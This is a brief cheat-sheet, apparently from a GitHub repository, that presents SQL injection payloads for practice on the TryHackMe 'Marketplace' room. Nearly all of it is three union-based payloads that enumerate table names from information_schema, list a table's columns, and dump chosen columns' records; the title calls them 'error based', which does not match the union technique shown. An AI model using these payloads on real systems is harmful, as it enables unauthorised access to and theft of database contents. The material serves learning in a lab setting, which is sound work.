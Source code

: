 
💉

SQL INJECTION - ERROR BASED
===========================

**This is a very simple example of how a SQL Injection error based looks like.**

Room to practice → **Tryhackme**: Marketplace

**Get all the table names of the current database**

    payload=1234 union select group_concat(table_name),2,3,4 from information_schema.tables where table_schema=database() -- -

**Get all the columns names of the specified table**

    payload=123 union select group_concat(column_name),2,3,4 from information_schema.columns where table_name='<TABLE-NAME>' -- -

**Get all records of the specified columns of the given table**

    payload=123 union select group_concat(<column_name1>,<column_name2>),2,3,4 from <TABLE-NAME>-- -
